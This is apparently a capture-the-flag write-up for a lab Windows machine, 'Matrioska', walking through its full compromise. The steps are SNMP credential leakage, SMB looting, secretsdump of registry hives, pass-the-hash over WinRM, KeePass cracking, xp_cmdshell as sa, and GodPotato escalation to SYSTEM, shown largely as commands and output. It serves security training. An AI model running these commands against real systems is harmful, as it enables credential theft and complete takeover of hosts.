


---
title: Matrioska - Ronin66 Machine
published: 2026-09-14
description: Matrioska writeup
tags: [SNMP, KeePass, impacket-secretsdump, SeImpersonatePrivilege]
category: Ronin66
image: "images/cover.jpeg"
draft: false
------------

## Summary

Matrioska is a Windows host exposing FTP, SMB, SNMP, WinRM, and MSSQL. Initial enumeration revealed anonymous FTP access to a log file containing an SNMP community string. Walking SNMP with the recovered community exposed a cleartext credential for `svc_smb`, which granted access to a non-default `TMP` SMB share.

The `TMP` share contained several files and archives, including a full `System32` dump. Extracting the offline `SAM`, `SYSTEM`, and `SECURITY` hives with `secretsdump` recovered the local `Administrator` NT hash. RID brute forcing then revealed the `Dean` account, which reused the same password hash, allowing pass-the-hash authentication over WinRM and access to the user flag.

Further enumeration revealed a KeePass database in `Dean`'s Documents directory. The first database could not be cracked with `rockyou.txt`, but another deleted `.kdbx` file was recovered from the Recycle Bin. This database cracked successfully and contained the MSSQL `sa` credentials.

The `sa` account was used to access MSSQL and enable `xp_cmdshell`. Since the SQL Server process had `SeImpersonatePrivilege`, GodPotato was used to impersonate a SYSTEM token and execute commands as `NT AUTHORITY\SYSTEM`, resulting in full control of the machine.

## Recon

### Initial Enumeration

A full TCP scan with service detection was performed to identify the exposed services:

```shell id="h8b3qf"
➜  Matrioska nmap -sC -sV -p- 172.16.18.11 --min-rate 5000
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_07-27-25  11:58AM       <DIR>          logs
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title.
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
50668/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
```

Several services were immediately interesting, including anonymous FTP, SMB, WinRM, and MSSQL running on the non-standard port `50668`. FTP was prioritized first because anonymous access was explicitly identified by Nmap.

### FTP Enumeration

As seen in the Nmap output, anonymous FTP access was allowed. We connected to the service and downloaded the exposed `last_2025.txt` file:

```shell id="n0f0gk"
➜  Matrioska ftp 172.16.18.11
Connected to 172.16.18.11.
220 Microsoft FTP Service
Name (172.16.18.11:root): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
229 Entering Extended Passive Mode (|||49823|)
125 Data connection already open; Transfer starting.
07-27-25  11:58AM       <DIR>          logs
226 Transfer complete.
ftp> cd logs
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49825|)
125 Data connection already open; Transfer starting.
11-21-25  07:05PM                   38 last_2025.txt
226 Transfer complete.
ftp> get last_2025.txt
local: last_2025.txt remote: last_2025.txt
229 Entering Extended Passive Mode (|||49826|)
125 Data connection already open; Transfer starting.
100% |*********************************************************************|    38        0.14 KiB/s    00:00 ETA
226 Transfer complete.
38 bytes received in 00:00 (0.13 KiB/s)
ftp>
```

The downloaded file contained what appeared to be an SNMP community string:

```shell id="q2p4ht"
➜  Matrioska cat last_2025.txt
SNMP: gdnceukal87wh66mxz109swklax567j8
```

### SNMP Enumeration

The recovered community string was used to enumerate the SNMP service:

```shell id="m5fr1f"
➜  Matrioska snmpwalk -v2c -c gdnceukal87wh66mxz109swklax567j8 172.16.18.11

iso.3.6.1.2.1.1.1.0 = STRING: "Hardware: AMD64 Family 15 Model 107 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 26100 Multiprocessor Free)"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3.1.1
iso.3.6.1.2.1.1.3.0 = Timeticks: (1557900268) 180 days, 7:30:02.68
iso.3.6.1.2.1.1.4.0 = STRING: "Username: svc_smb | pass: !Smbsvc_2025#66#"
iso.3.6.1.2.1.1.5.0 = STRING: "MTK161"
iso.3.6.1.2.1.1.6.0 = ""
iso.3.6.1.2.1.1.7.0 = INTEGER: 76
iso.3.6.1.2.1.2.1.0 = INTEGER: 17
iso.3.6.1.2.1.2.2.1.1.1 = INTEGER: 1
<SNIP>
```

The SNMP data exposed a cleartext credential:

```text id="o1c6ka"
svc_smb : !Smbsvc_2025#66#
```

This credential was then tested against SMB.

## Shell as Dean

### SMB Enumeration

Using the recovered credentials, we enumerated the available SMB shares:

```shell id="t1e1q5"
➜  Matrioska nxc smb 172.16.18.11 -u 'svc_smb' -p '!Smbsvc_2025#66#' --shares
SMB         172.16.18.11    445    MTK161           [*] Windows 11 / Server 2025 Build 26100 x64 (name:MTK161) (domain:MTK161) (signing:True) (SMBv1:None)
SMB         172.16.18.11    445    MTK161           [+] MTK161\svc_smb:!Smbsvc_2025#66#
SMB         172.16.18.11    445    MTK161           [*] Enumerated shares
SMB         172.16.18.11    445    MTK161           Share           Permissions     Remark
SMB         172.16.18.11    445    MTK161           -----           -----------     ------
SMB         172.16.18.11    445    MTK161           ADMIN$                          Remote Admin
SMB         172.16.18.11    445    MTK161           C$                              Default share
SMB         172.16.18.11    445    MTK161           IPC$            READ            Remote IPC
SMB         172.16.18.11    445    MTK161           TMP             READ
```

The `TMP` share allowed read access and was not a standard administrative share. We connected to it with `smbclient`:

```shell id="h3y4zv"
➜  Matrioska smbclient //172.16.18.11/TMP -U 'svc_smb'
Password for [WORKGROUP\svc_smb]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Nov 21 11:20:46 2025
  ..                                DHS        0  Sat Mar 14 07:38:07 2026
  archives                            D        0  Mon Jul 28 11:49:48 2025
  backup                              D        0  Mon Jul 28 11:50:13 2025
  confidential_notes.txt              A       34  Sat Jul 26 07:04:12 2025
  config_666.log                      A       67  Sat Jul 26 07:04:12 2025
  data_243.cfg                        A       64  Sat Jul 26 07:04:12 2025
  logfile_332.cfg                     A      264  Sat Jul 26 07:04:12 2025
  logs                                D        0  Mon Jul 28 11:49:48 2025
  old                                 D        0  Mon Jul 28 11:49:48 2025
  password                            D        0  Mon Jul 28 11:49:48 2025
  reports                             D        0  Mon Jul 28 11:49:48 2025
  temp                                D        0  Mon Jul 28 11:49:48 2025
  win11base.zip                       A 117875513  Fri Nov 21 11:22:10 2025
  windows_backup_2022.zip             A      256  Sat Jul 26 07:04:12 2025

        16558079 blocks of size 4096. 5578867 blocks available
smb: \>
```

Because the share contained a large number of files and directories, the entire share was downloaded recursively:

```shell id="7y15wr"
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
```

### Offline File Analysis

We then reviewed the downloaded files locally. The `password` directory contained a short list of candidate passwords:

```shell id="j8d1ym"
➜  Matrioska ls
archives  confidential_notes.txt  data_243.cfg     logs  password  temp           windows_backup_2022.zip
backup    config_666.log          logfile_332.cfg  old   reports   win11base.zip
➜  Matrioska cat password/secret.txt
test123
dsa/65!!ew
O91pSMMVe7Zp
@@mHGDy12/1
```

The `windows_backup_2022.zip` archive was password protected. The password `O91pSMMVe7Zp` successfully opened it, but it contained no useful data.

The larger `win11base.zip` archive was more interesting. It contained a dump of the Windows `System32` directory:

```shell id="5x9e6t"
➜  Matrioska unzip win11base.zip
Archive:  win11base.zip
   creating: System32/
   creating: System32/pl-PL/
  inflating: System32/@facial-recognition-windows-hello.gif
   creating: System32/SleepStudy/
   creating: System32/SleepStudy/ScreenOn/
  inflating: System32/SleepStudy/ScreenOn/ScreenOnPowerStudyTraceSession-2025-07-26-11-54-43.etl
  inflating: System32/SleepStudy/ScreenOn/ScreenOnPowerStudyTraceSession-2025-07-26-11-57-49.etl
  inflating: System32/SleepStudy/ScreenOn/ScreenOnPowerStudyTraceSession-2025-07-26-11-52-54.etl
  inflating: System32/SleepStudy/SleepStudyTraceSession.etl
  inflating: System32/SleepStudy/SleepStudyControlTraceSession.etl
   creating: System32/spool/
<SNIP>
```

Since the dump contained the `SAM`, `SYSTEM`, and `SECURITY` registry hives, we used `impacket-secretsdump` to extract the local account hashes:

```shell id="4w1j5f"
➜  Matrioska impacket-secretsdump -sam System32/config/SAM -system System32/config/SYSTEM -security System32/config/SECURITY LOCAL
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x5c304423d95caa7c914c70513985ff40
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e409434e38dfec25410d83696964c1e4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:bc06173bf532b317980d7ebe8e73a220:::
Sam:1001:aad3b435b51404eeaad3b435b51404ee:cba29c45445dda60bdb47c5ea1fc86c9:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword
(Unknown User):_TBAL_{68EDDCF5-0AEB-4C28-A770-AF5302ECA3C9}
[*] DPAPI_SYSTEM
dpapi_machinekey:0x023d015b9a14b112bc0cbf9254bd53043a37fdfd
dpapi_userkey:0xee70c54fc798a6b0c5439444a636ebe33ca12f7d
<SNIP>
[*] Cleaning up...
```

The dump provided the NT hash for the local `Administrator` account:

```text id="u5q5m1"
Administrator : e409434e38dfec25410d83696964c1e4
```

We then needed to identify the available users on the target.

### RID Brute Forcing

Using the valid `svc_smb` credentials, RID brute forcing was performed against SMB:

```shell id="q6d7a5p"
➜  Matrioska nxc smb 172.16.18.11 -u 'svc_smb' -p '!Smbsvc_2025#66#' --rid-brute
SMB         172.16.18.11    445    MTK161           [*] Windows 11 / Server 2025 Build 26100 x64 (name:MTK161) (domain:MTK161) (signing:True) (SMBv1:None)
SMB         172.16.18.11    445    MTK161           [+] MTK161\svc_smb:!Smbsvc_2025#66#
SMB         172.16.18.11    445    MTK161           500: MTK161\Administrator (SidTypeUser)
SMB         172.16.18.11    445    MTK161           501: MTK161\Guest (SidTypeUser)
SMB         172.16.18.11    445    MTK161           503: MTK161\DefaultAccount (SidTypeUser)
SMB         172.16.18.11    445    MTK161           504: MTK161\WDAGUtilityAccount (SidTypeUser)
SMB         172.16.18.11    445    MTK161           513: MTK161\None (SidTypeGroup)
SMB         172.16.18.11    445    MTK161           1001: MTK161\Dean (SidTypeUser)
SMB         172.16.18.11    445    MTK161           1002: MTK161\svc_smb (SidTypeUser)
SMB         172.16.18.11    445    MTK161           1003: MTK161\SQLServer2005SQLBrowserUser$MTK161 (SidTypeAlias)
➜  Matrioska
```

The `Dean` account was identified with RID `1001`. Since the recovered `Administrator` hash was available, we tested it against `Dean` using pass-the-hash authentication over WinRM:

```shell id="z9q6hs"
➜  Matrioska nxc winrm 172.16.18.11 -u 'Dean' -H 'e409434e38dfec25410d83696964c1e4'
WINRM       172.16.18.11    5985   MTK161           [*] Windows 11 / Server 2025 Build 26100 (name:MTK161)
WINRM       172.16.18.11    5985   MTK161           [+] MTK161\Dean:e409434e38dfec25410d83696964c1e4 (Pwn3d!)

➜  Matrioska evil-winrm -i 172.16.18.11 -u 'Dean' -H 'e409434e38dfec25410d83696964c1e4'

Evil-WinRM shell v3.9

<SNIP>

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users> cd Public
*Evil-WinRM* PS C:\Users\Public> cat user.flg
609<SNIP>>729
*Evil-WinRM* PS C:\Users\Public>
```

We obtained a shell as `Dean` and retrieved the user flag.

## Shell as NT AUTHORITY\SYSTEM

### KeePass Database - Failed

With access as `Dean`, we enumerated the user's files and found a KeePass database in the Documents directory:

```shell id="vs3ncf"
*Evil-WinRM* PS C:\Users\Dean\Documents> ls

    Directory: C:\Users\Dean\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/14/2026  10:39 PM                dpapi_stage
<SNIP>
-a----         7/28/2025  10:56 PM           1943 Database.kdbx
```

We downloaded the database and extracted its hash using `keepass2john`. The current version of John the Ripper was built from the `bleeding-jumbo` branch to provide the required KeePass support:

```shell id="4zru3n"
cd /opt
sudo git clone https://github.com/openwall/john -b bleeding-jumbo john-jumbo
cd john-jumbo/src
sudo apt install -y build-essential libssl-dev git zlib1g-dev yasm libgmp-dev libpcap-dev libbz2-dev
./configure && make -sj$(nproc)
```

We then attempted to crack the database using `rockyou.txt`:

```shell id="tw4t4a"
➜  run git:(bleeding-jumbo) ./keepass2john /root/machines/ronin/Matrioska/Database.kdbx
Database:$keepass$*4*600000*c9d9f3<SNIP>a01c948d2

➜  run git:(bleeding-jumbo) ./john /root/machines/ronin/Matrioska/hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [AES/Argon2 256/256 AVX2])
Cost 1 (t (rounds)) is 6000 for all loaded hashes
Cost 2 (m) is 0 for all loaded hashes
Cost 3 (p) is 0 for all loaded hashes
Cost 4 (KDF [0=Argon2d 2=Argon2id 3=AES]) is 3 for all loaded hashes
Will run 4 OpenMP threads
Note: Passwords longer than 41 [worst case UTF-8] to 124 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
```

The database used Argon2 and was not cracked with `rockyou.txt`.

### Recovering the Deleted KeePass Database

Since the first KeePass database did not provide the required credentials, further enumeration was performed. Two additional `.kdbx` files were found in the Recycle Bin:

```shell id="2qwd9f"
*Evil-WinRM* PS C:\$Recycle.Bin> ls -force

    Directory: C:\$Recycle.Bin

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d--hs-        11/21/2025   5:45 PM                S-1-5-18
d--hs-         7/28/2025  10:55 PM                S-1-5-21-1990608512-1549956336-3991441458-1001
d--hs-         3/14/2026  12:02 PM                S-1-5-21-1990608512-1549956336-3991441458-500


*Evil-WinRM* PS C:\$Recycle.Bin> cd S-1-5-21-1990608512-1549956336-3991441458-1001
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-1990608512-1549956336-3991441458-1001> ls

    Directory: C:\$Recycle.Bin\S-1-5-21-1990608512-1549956336-3991441458-1001

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         7/28/2025  10:55 PM             80 $IRQIR9O.kdbx
-a----         7/28/2025  10:54 PM           2062 $RRQIR9O.kdbx

*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-1990608512-1549956336-3991441458-1001>
```

The larger `$RRQIR9O.kdbx` file was copied to a location we could access:

```shell id="9hq3dr"
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-1990608512-1549956336-3991441458-1001> copy '$RRQIR9O.kdbx' C:\Users\Dean\Documents\found_database.kdbx
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-1990608512-1549956336-3991441458-1001> cd /Users/Dean/Documents
*Evil-WinRM* PS C:\Users\Dean\Documents>
```

The recovered database was then extracted and cracked:

```shell id="p1jj8z"
➜  run git:(bleeding-jumbo) ./keepass2john /root/machines/ronin/Matrioska/found_database.kdbx > /root/machines/ronin/Matrioska/hash.txt
➜  run git:(bleeding-jumbo) ./john /root/machines/ronin/Matrioska/hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [AES/Argon2 256/256 AVX2])
<SNIP>
Failed to use huge pages (not pre-allocated via sysctl? that's fine)
lloyd7           (found_database)
1g 0:00:00:04 DONE (2026-09-14 20:52) 0.2045g/s 61756p/s 61756c/s 61756C/s lloyd7..lloyd143
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The database password was `lloyd7`.

Opening the database revealed credentials for the MSSQL `sa` account.





The recovered credential was:

```text
sa : Imp0ss1bl3t0l3@kx!
```

### MSSQL Access as sa

The recovered credentials were used to connect to the MSSQL instance on port `50668`:

```shell id="9h5xem"
➜  Matrioska impacket-mssqlclient sa@172.16.18.11 -port 50668
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MTK161\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MTK161\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

The `sa` account provided a highly privileged SQL session. We enabled `xp_cmdshell` and checked the privileges of the resulting process:

```shell id="eq9v7g"
➜  Matrioska impacket-mssqlclient sa@172.16.18.11 -port 50668
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(MTK161\SQLEXPRESS): Line 196: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(MTK161\SQLEXPRESS): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> xp_cmdshell whoami /priv
output
--------------------------------------------------------------------------------
NULL

PRIVILEGES INFORMATION
----------------------
NULL

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The `SeImpersonatePrivilege` privilege was enabled, providing a path to SYSTEM through token impersonation.

### SeImpersonatePrivilege Abuse with GodPotato

We used the MSSQL client to upload [GodPotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20) to the target:

```shell id="69eq5m"
SQL (sa  dbo@master)> upload /root/tools/GodPotato-NET4.exe C:/Users/Public/GodPotato-NET4.exe
[+] Data length (b64-encoded): 74.67 KB with MD5: 1fdb1dd742674d3939f636c3fc4b761f
[+] Uploading...
[+] Uploaded
[+] certutil -decode "C:/Users/Public/GodPotato-NET4.exe.b64" "C:/Users/Public/GodPotato-NET4.exe"
[+] del "C:/Users/Public/GodPotato-NET4.exe.b64"
[+] certutil -hashfile "C:/Users/Public/GodPotato-NET4.exe" MD5
[+] MD5 hashes match
SQL (sa  dbo@master)>
```

With the binary on the host, we executed it through `xp_cmdshell` to impersonate the SYSTEM token:

```shell id="qz7rfq"
SQL (sa  dbo@master)> xp_cmdshell C:/Users/Public/GodPotato-NET4.exe -cmd "cmd /c whoami"
output
--------------------------------------------------------------------------------
[*] CombaseModule: 0x140706148188160
[*] DispatchTable: 0x140706150905408
[*] UseProtseqFunction: 0x140706149879744
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\963995d6-324a-47ed-bd7f-03f67e659fd0\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000b002-2ab8-ffff-32c1-faf82a91b313
[*] DCOM obj OXID: 0xf44df838e871054f
[*] DCOM obj OID: 0x470d5668585e4b44
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 912 Token:0x732  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 6160
nt authority\system
NULL
```

The command executed successfully as `NT AUTHORITY\SYSTEM`.

We then used the same technique to retrieve the root flag:

```shell id="4s5w8r"
SQL (sa  dbo@master)> xp_cmdshell C:/Users/Public/GodPotato-NET4.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\root.flg"
output
--------------------------------------------------------------------------------
[*] CombaseModule: 0x140706148188160
[*] DispatchTable: 0x140706150905408
[*] UseProtseqFunction: 0x140706149879744
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\fc74eb2e-6c12-48ac-9a7a-e796c74379db\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00008402-06bc-ffff-e03c-0b24c1494eca
[*] DCOM obj OXID: 0xd7ec4831d0a0611
[*] DCOM obj OID: 0x17e291b912bbf92d
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 912 Token:0x732  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 7796
ce1c<SNIP>555
SQL (sa  dbo@master)>
```